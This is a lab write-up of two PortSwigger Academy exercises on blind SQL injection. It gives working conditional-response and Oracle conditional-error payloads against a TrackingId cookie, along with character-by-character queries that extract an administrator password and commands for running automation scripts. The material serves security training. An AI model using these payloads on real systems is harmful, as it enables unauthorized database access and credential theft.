 # Blind SQL injection-Boolean Based
## Summary
- [Lab11: Blind SQL injection with conditional responses](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Blind%20SQL%20injection/Blind%20SQLi%20-%20Boolean%20Based#lab11-blind-sql-injection-with-conditional-responses)
- [Lab12: Blind SQL injection with conditional errors](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Blind%20SQL%20injection/Blind%20SQLi%20-%20Boolean%20Based#lab12-blind-sql-injection-with-conditional-errors)

### Lab11: Blind SQL injection with conditional responses
- In Blind SQL injection, the application doesn't reply with the results of the query which we injected so we don't see any messages from the server to help us to detect the error to bypass it. 
- We will depend on some techniques to detect the blind SQL injection and exploit it and one of their techniques is called `using conditional responses`.
- Here, we will send some questions as queries to the server to wait for the reply from it if our query is `True` or `False`.

- You can send any of conditions to validate and monitor the responses like that:
```
TrackingId=xyz'--      
TrackingId=xyz'        (Causing in unnatural behavior)
```
#### or such as that:
```
TrackingId=xyz' AND 1=1--     (True condition)
TrackingId=xyz' AND 1=2--     (False condition and causing in unnatural behavior)
```

> `Note:` Some servers block the comment symbols as `#` and `--`, so we can use the condition with the single quotes like that:

```
TrackingId=xyz' AND '1'='1    (True condition)
TrackingId=xyz' AND '1'='2    (False condition and causing in unnatural behavior)
```
- If we used the comparer in burp suite to observe the behavior of the responses between the `True` and `False` conditions, we will find unnatural behavior in the application and the length of each response is different.
- And there is a `Welcome back!` message that is deleted when we send a `False` condition.
- But in the `True` condition, we will see a `Welcome back!` message in the response.

![lab11_comparer.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab11_comparer.png)

- So we proved and confirmed that the application evaluates our queries and the `TrackingId` parameter is vulnerable to blind SQL injection.

- Now we will try to verify and notice the message in the response to know if our query is `True` or `False`. 
- Here, we sured that there is a table is called a `users` when the `Welcome back!` message has appeared:
```
TrackingId=xyz' AND (SELECT 'test' FROM users LIMIT 1)='test'--
```

> `Note:` In the real-world scenario, you must try a lot of payloads and test a lot to reach any valid query that the application interprets.
- Now we will try to verify if the column of username is existing in the table or not by identifying the username with `administrator`:

```
TrackingId=xyz' AND (SELECT username FROM users WHERE username='administrator')='administrator'--
```
- Ok, there is an `administrator` username, so let's go to know the length of the password, but we will need to test many numbers and observe the message when it appears, and so we will know the right number of characters for the password.

```
TrackingId=xyz' AND (select 'test' FROM users WHERE username='administrator' and length(password)=1)='test'--
```
- But we will do that by the brute-forcing the length and matching if the message appeared and then we will know that this is the right number of length:

![lab11_brutefocring_length.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab11_brutefocring_length.png)

- We have known that the length password is 20 char.
- After that, we need to extract the password characters to log in with the admin password.
- We will do that by retrieving that data as numbers, so we will use two important functions to do that:
	- `ASCII`, which returns the [ASCII](https://upload.wikimedia.org/wikipedia/commons/d/dd/ASCII-Table.svg) code for the input character.
	- `SUBSTRING` (or SUBSTR in Oracle), which returns a substring of its input.
- Check out how these functions work:
	- [SUBSTRING()](https://www.w3schools.com/sql/func_mysql_substring.asp)
	- [ASCII()](https://www.w3schools.com/sql/func_mysql_ascii.asp)

```
TrackingId=xyz' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='administrator')=112--
```
- But we need to try the ASCII numbers for each char so we will brute-forcing for 20 chars.
- You can do that by using an intruder in the burp suite but it will take a long time to finish.
- We can write a python script to extract the password automatically and quickly.
- You can see my script from here:[SQLi_lab11_password_admin.py](https://github.com/Sec0gh/python-scripts/blob/main/Blind%20SQLi%20scripts/SQLi_lab11_password_admin.py)
- To run the script:
```
$ python3 SQLi_lab11_password_admin.py "Target_URl"
```

![lab11_password_admin.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab11_password_admin.png)

- Congrats, we got the password admin.

-----------------------------------------------------------------------
### Lab12: Blind SQL injection with conditional errors
- Here, our methodology will depend on the conditional responses which cause an SQL error.
- The main target is doing anything to cause an error in the database to ensure that the server reads and interprets our query so we will know the parameter is vulnerable to SQL injection.
- We can cause a SQL error like that(You can try any other payloads as you need):

```
TrackingId=xyz'               (Internal Server Error)
TrackingId=xyz' and 1=1'--    (Internal Server Error)
```
- But if you fixed them and added another single quote, you will receive succeeded response.
```
TrackingId=xyz''               (Succeeded response)
TrackingId=xyz' and 1='1'--    (Succeeded response)
```
- If you tried a payload like that you will notice that the logical conditions using (AND, OR) don't respond to any succeeded response.
```
TrackingId=xyz' AND (SELECT NULL)--    (Internal Server Error)
```
- And if you tried the concatenating, it won't work also.
```
TrackingId=xyz' || (SELECT NULL)--    (Internal Server Error)
```
- But if you tried concatenating and used the `dual` table, you will detect that it is an oracle database, and the server will respond with a succeeded response.

```
TrackingId=xyz' ||(SELECT NULL from dual)--
```
- Here we will try to prove that the `users` table is exist but it will respond with an `Internal Server Error`.
```
TrackingId=xyz' ||(SELECT NULL FROM users)--
```
- But you can limit the number of rows in oracle by using `ROWNUM` column.
- Check out: [ROWNUM](https://docs.oracle.com/cd/B14117_01/server.101/b10759/pseudocolumns008.htm)
```
TrackingId=xyz' ||(SELECT NULL FROM users WHERE ROWNUM = 1)--
```
- Now we will use the `CASE` statement to help us to submit our conditions.
- Check out the syntax of it: [SQL CASE Statement](https://www.w3schools.com/sql/sql_case.asp)
- Here, we will set a condition `1=1` which is `True`, so it will execute the action of  `TO_CHAR(1/0)`, and it will cause a `divide-by-zero error` and the server will respond with `Internal Server Error`.
- [TO_CHAR()](https://www.w3schools.blog/to-char-function-oracle): it will make this error because it can not convert this expression `1/0` from number to string, and we will use this function because it is an oracle database.
```
TrackingId=xyz'||(SELECT CASE WHEN 1=1 THEN TO_CHAR(1/0) ELSE 'test' END FROM dual)--
```
- but we can fix this condition by changing it to `1=2` to execute the action of `'test'`.
```
TrackingId=xyz'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE 'test' END FROM dual)--
```
- You can check out the conditional errors payloads for different databases from the [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
- So now we will check if the administrator is in the `users` table or not by the same previous condition `1=2`.
```
TrackingId=xyz'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE 'test' END FROM users WHERE username='administrator')--
```
- Now, it is left only to know the password, but first, we need to know the length of the password.
- We will use the condition where if the length of the password is `True`, it will execute the action of `TO_CHAR(1/0)` and the server will respond with the error message.
- But now we will brute force the position of password length with intruder and match the message of `Internal Server Error` when it appears.
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)=1 THEN TO_CHAR(1/0) ELSE 'test' END FROM users WHERE username='administrator')--
```
- It's very amazing, we caught the length of the password through the error message, which appeared in the response(The password length is 20 char).

![lab12_length_password.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab12_length_password.png)

- After we have known the length of the password, we need to extract the password characters to log in with the admin password.
- We will do that by retrieving that data as numbers, so we will use two important functions to do that:
	- `ASCII`, which returns the [ASCII](https://upload.wikimedia.org/wikipedia/commons/d/dd/ASCII-Table.svg) code for the input character.
	- `SUBSTRING` (or `SUBSTR` in Oracle), which returns a substring of its input.

```
TrackingId=xyz'||(SELECT CASE WHEN ASCII(SUBSTR(password,1,1))=111 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- But we need to try the ASCII numbers for each char so we will brute-forcing for 20 chars.
- You can do that by using an intruder in the burp suite but it will take a long time to finish.
- We can write a python script to extract the password automatically and quickly.
- You can see my script from here:[SQLi_lab12_password_admin.py](https://github.com/Sec0gh/python-scripts/blob/main/Blind%20SQLi%20scripts/SQLi_lab12_password_admin.py)
- To run the script:
```
$ python3 SQLi_lab12_password_admin.py "Target_URl"
```

![lab12_admin_password.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab12_admin_password.png)

- Congrats, and finally, we got the password admin.









